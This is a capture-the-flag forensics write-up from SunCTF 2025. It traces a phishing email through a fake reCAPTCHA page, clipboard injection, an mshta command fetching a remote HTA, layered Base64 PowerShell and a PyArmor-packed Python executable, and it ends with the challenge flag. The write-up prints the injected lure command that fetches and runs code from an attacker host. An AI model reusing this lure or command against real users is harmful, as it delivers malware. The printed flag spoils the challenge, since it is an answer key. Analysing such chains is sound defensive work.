 ```yaml
---
title: Stop fixing my clicks
description: The objective of this challenge is to investigate a phishing email and trace its payload chain through clipboard injection, remote code execution, and multiple layers of obfuscation. Identify and extract the attacker’s final payload and recover the embedded flag through reverse engineering or memory forensics.
date: 2025-08-31 00:00:00+0000
categories:
   - SunCTF 2025
   - CTF Writeup
tags:
   - Forensics
weight: 1     
---
```

# Stop fixing my clicks - CTF Challenge Writeup

## Challenge Information
- **Name**: Stop fixing my clicks  
- **Points**: 10  
- **Category**: Forensics  
- **Objective**: Investigate a phishing email and trace its payload chain through clipboard injection, remote code execution, and multiple layers of obfuscation. Identify and extract the attacker’s final payload and recover the embedded flag through reverse engineering or memory forensics.

---

## Solution

### 1. **Initial Analysis: Email File**
- The challenge starts with an **email artifact**.
- Decoding its **Base64 content** revealed HTML designed to improve the visual presentation of the email.
- The HTML included:
  - A **phishing link**
  - An **image**
- Going to the phishing link led to a fake reCAPTCHA verification page, instructing the user to paste a value into Windows Registry — clearly suspicious behavior. 
- There will not be images regarding this phishing website since the website has been taken down at the time of writing this writeup, not sure if its because the participants reported it or the organisers removed it.


   ![Link](<1. link.png>) 


   ![Image](<2. image.png>)

---

### 2. **Clipboard Injection**
- Surprisingly, browsing to the website and clicking a button will poppulate my clipboard the expected value, suggesting the site auto-injected content using JavaScript. 
- The clipboard-pasted command was:
  
    ```bash
    mshta http://www.h0tbirdgl4z3rs.online/sameko_saba_exposed.mp4 # ✅ ''I am not a robot - reCAPTCHA Verification ID: 2165
    ```

- This command uses **`mshta`**, a known Windows utility abused by attackers to fetch and execute `.hta` payloads.

---

### 3. **Fetching the Payload**
- Used `curl` to retrieve the HTA file manually.
- The response contained a **PowerShell command** with a **large Base64 blob**.
- Decoding this led to another **PowerShell script**.


    ![Downloaded Content](<3. downloaded contents.png>)


    ![Another Base64](<Another Base64.png>)


---

### 4. **Executable Payload**
- Decoding the inner Base64 string revealed content beginning with **`MZ`**, indicating a **Windows executable**.

    ![Executable](Executable.png)

- The binary was downloaded and analyzed:
  - Identified as a **Python-compiled executable**.
- When working with an EXE file, it’s important to identify the language it was compiled from—whether it’s .NET, Python, Rust, or something else. The decompilation process differs depending on the language used.
- Tools like `pyinstxtractor` and `pycdc` were used to begin decompilation.


    ![Python Compiled Executable](<5. python compiled executable.png>)

---

### 5. **Obfuscation Barrier: PyArmor**
- Analysis revealed that the executable was protected with **PyArmor**, a tool designed to obfuscate and encrypt Python code.
- PyArmor is notoriously difficult to reverse statically and I personally was not able to use any methods mentioned online.

    ![PyArmor](<6. pyamor indication.png>)

---

### 6. **Memory Dump Strategy**
- I eventually gave up trying the methods suggested by most github and research papers and resorted to do something retarded, referenced from [Medium Article](https://medium.com/@keii./analysis-of-pyarmor-obfuscated-python-malware-without-deobfuscating-the-source-itsec-ctf-2025-240052f8ccc0).
- Talking to the challenge authors after the CTF, I found that this isnt the intended solution but conceptually it matches the intended solution.
- The idea is to  **execute the binary**, then performed a **live memory dump**.

    ![Capture Memory](<7. creare the dump files.png>)

- After dumping memory, used `grep` to search for URLs or strings of interest.
- Discovered a **link to the attacker’s database**.

    ![Grep](<8. grep.png>)

    ![Grep 2](<9. found link.png>)

---

### 7. **Flag Retrieval**
- The database contained a **ZIP archive**, which appeared to contain the flag.
- The archive was **password-protected**. 

    ![Attacker Database File](<10. attacker databse file.png>)

- Surprisingly, I see my hostname in the database as well 👀, meaning when I executed the binary for memory dumping, it actually captured by data and send it to the CTF server (attacker server). Please dont reveal my data zach/robbin.
- Since the zip file is password protected, I attempted to crack it but it failed.
- Continued grepping surrounding memory lines revealed **several potential password candidates**.
- After trial-and-error with various strings found, one of them successfully unlocked the archive.

    ![Possible Password](<11. found possible password entry.png>)


    ![Password Worked](<12. password worked.png>)

- Inside: **the flag**.

    ![Flag](<13. flag.png>)

---

## Flag
The flag for this challenge is:  
`sunctf25{A_v3ry_le9A1_d0CUM3NT}`